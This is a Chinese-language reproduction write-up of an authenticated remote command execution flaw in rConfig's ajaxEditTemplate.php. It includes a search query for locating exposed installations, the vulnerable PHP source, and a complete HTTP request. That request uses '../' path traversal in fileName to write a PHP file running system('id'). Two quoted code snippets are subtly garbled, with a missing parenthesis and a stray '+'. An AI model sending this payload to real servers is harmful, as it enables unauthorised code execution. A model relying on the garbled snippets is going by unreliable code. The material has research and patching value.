# rConfig ajaxEditTemplate.php 后台远程命令执行漏洞

## 漏洞描述

rConfig ajaxEditTemplate.php 存在后台远程命令执行

## 漏洞影响

<a-checkbox checked>rConfig</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="rConfig"</a-checkbox></br>

## 漏洞复现

漏洞文件为 `rconfig/www/lib/ajaxHandlers/ajaxEditTemplate.php`



```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/classes/spyc.class.php");
require_once("/home/rconfig/config/functions.inc.php");

$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
    $ymlData = Spyc::YAMLLoad($_POST['code']);
    $fileName = $_POST['fileName'];
    $check_yml_extension = explode('.', $fileName);
    if(@!array_key_exists($check_yml_extension[1])){
        if(@$check_yml_extension[1] != 'yml'){
            $fileName = $fileName . '.yml';
        }
    }
    $fullpath = $config_templates_basedir.$fileName;

    $username = $_SESSION['username'];
    require_once("../../../classes/db2.class.php");
    require_once("../../../classes/ADLog.class.php");
    $db2 = new db2();
    $log = ADLog::getInstance();

    if (!is_dir('templates')) {
        mkdir('templates');
        chown('templates', 'apache');
    }

    // if'' to create the filename based on the command if not created & chmod to 666
    if (!file_exists($fullpath)) {
        exec("touch " . $fullpath);
        chmod($fullpath, 0666);
    }
    // if the file is alread in place chmod it to 666 before writing info
    chmod($fullpath, 0666);

    // dump array into file & chmod back to RO
    $filehandle = fopen($fullpath, 'w+');
    file_put_contents($fullpath, $_POST['code']);
    fclose($filehandle);
    chmod($fullpath, 0444);
 
    $db2->query("UPDATE `templates` SET `fileName` = :fileName, `name` = :name, `desc` = :desc, `dateLastEdit` = NOW(), `addedby` = :username WHERE `id` = :id");
    $db2->bind(':id', $_POST['id']);
    $db2->bind(':fileName', $fullpath);
    $db2->bind(':name', $ymlData['main']['name']);
    $db2->bind(':desc', $ymlData['main']['desc']);
    $db2->bind(':username', $username);

    $queryResult = $db2->execute();
    /* Update successful */
    if ($queryResult && file_exists($fullpath)) {
        $response = "success";
        $log->Info("Success: Template: ".$fullpath." edited in templates folder");
    }
    /* Update failed */ else {
        $response = "failed";
        $log->Warn("Success: Could not edit Template ".$fullpath." in templates folder");
    }
    echo json_encode($response);    
}  // end session check
```



关键代码如下



```php
// if'' to create the filename based on the command if not created & chmod to 666
    if (!file_exists($fullpath)) {
        exec("touch " . $fullpath);
        chmod($fullpath, 0666);
    }
    // if the file is alread in place chmod it to 666 before writing info
    chmod($fullpath, 0666);

    // dump array into file & chmod back to RO
    $filehandle = fopen($fullpath, 'w+');
    file_put_contents($fullpath, $_POST['code']);
    fclose($filehandle);
    chmod($fullpath, 0444;
```



$fileName -->  $fullpath ---> 写入文件，其中 fileName参数 POST传入时没有过滤导致目录可上传任意位置



```php
$ymlData = Spyc::YAMLLoad($_POST['code']);
    $fileName = $_POST['fileName'];
    $check_yml_extension = explode('.', $fileName);
    if(@!array_key_exists($check_yml_extension[1])){
        if(@$check_yml_extension[1] != 'yml'){
            $fileName = $fileName . '.yml';
        }
    }
    $fullpath = $config_templates_basedir+ .$fileName;
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/rc-7.png)



```php
$filehandle = fopen($fullpath, 'w+');
file_put_contents($fullpath, $_POST['code']);
```



POST code 传参写入文件 test.php.yml, 请求包如下



```plain
POST /lib/ajaxHandlers/ajaxEditTemplate.php HTTP/1.1
Host: 
Cookie: PHPSESSID=fv8j4c6r4gofug1vr9v3efdvj7
Content-Length: 81
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

fileName=../www/test.php&code=<?php echo system('id');?>&id=1
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/rc-8.png)



这里写入文件 `test.php.yml`,并使用 `../` 跳出限制的目录，访问 test.php.yml 实际访问了 test.php，执行id命令



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/rc-9.png)



## 